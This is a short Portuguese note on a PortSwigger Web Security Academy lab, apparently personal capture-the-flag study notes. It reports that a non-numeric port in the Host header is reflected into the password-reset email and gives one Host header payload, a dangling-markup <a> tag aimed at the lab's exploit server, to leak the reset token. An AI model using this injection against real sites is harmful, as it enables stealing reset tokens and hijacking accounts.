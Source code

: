 #ctf 

https://portswigger.net/web-security/host-header/exploiting/password-reset-poisoning/lab-host-header-password-reset-poisoning-via-dangling-markup

O teste que deu certo neste caso é enviar uma porta não numérica. E ao analisar o email recebido é possível ver que ela aparece na tag `<a>`.

![[Pasted image 20240122170127.png]]

A ideia então é inserir o payload ali

```
Host: 0a6200b704016990819fb6ed002400f1.web-security-academy.net:'<a href="//exploit-0a98008f047e69f881c2b5fd0133004f.exploit-server.net/?
```
